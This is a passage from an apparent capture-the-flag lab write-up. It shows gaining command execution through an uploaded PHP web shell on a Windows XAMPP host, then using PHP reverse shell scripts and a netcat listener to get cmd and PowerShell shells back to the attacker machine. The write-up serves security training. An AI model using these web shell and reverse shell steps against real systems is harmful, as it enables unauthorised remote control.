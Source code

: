 ```none
http://10.10.10.239/images/cmd.php?cmd=whoami
```

And... we have code execution, running as the user named `phoebe`.

![Port 80 Admin PHP Upload](screenshots/80_admin_code_execution.png)

Time to get a reverse shell. There are a bunch of options here, but I went for a PHP reverse shell as it seemed the easiest. I started with trying the "laudanum" reverse shell.

```none
cp /usr/share/webshells/laudanum/php/php-reverse-shell.php .
```

And uploaded it to the web app by modifying the same Burp request I had in Repeater. However, I got a `uname` error on the reverse shell listener on my machine.

```none
└─$ nc -lvnp 9001                                   
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.239] 55751
'uname' is not recognized as an internal or external command,
operable program or batch file.
```

I guess this script is Linux only - so I went on a hunt to find a PHP reverse shell with support for Windows too. Tried a windows shell that touted support for Linux, macOS and Windows named [`php_reverse_shell.php` by Ivan Sincek](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php). Copied the code into the same request and ran it. Success!

```none
└─$ nc -lvnp 9001                                                 
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.239] 55758
SOCKET: Shell has connected! PID: 6964
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>
```

Went back to the same request in Repeater, and change the script to use `powershell.exe` instead of `cmd.exe` and reuploaded. Probably could have just run `powershell.exe` from the command prompt too.

```none
└─$ nc -lvnp 9001                                                 
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.239] 55760
SOCKET: Shell has connected! PID: 600
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\xampp\htdocs\omrs\images>
```
